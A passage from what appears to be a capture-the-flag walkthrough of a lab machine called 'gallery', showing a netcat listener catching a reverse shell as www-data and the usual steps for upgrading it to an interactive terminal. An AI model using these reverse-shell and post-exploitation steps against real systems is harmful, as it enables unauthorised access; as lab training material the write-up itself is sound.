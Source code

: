 ![](images/gallery6.png)

<br>

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.156.186] 48404
Linux gallery 4.15.0-167-generic #175-Ubuntu SMP Wed Jan 5 01:56:07 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 03:06:54 up 35 min,  0 users,  load average: 0.00, 0.25, 2.87
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
gallery
```

<br>

## System Enumeration

I check if python3 is on the system and it is so let's make our shell interactive:

- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `export TERM=xterm`
- background our current connection
- `stty raw -echo; fg`
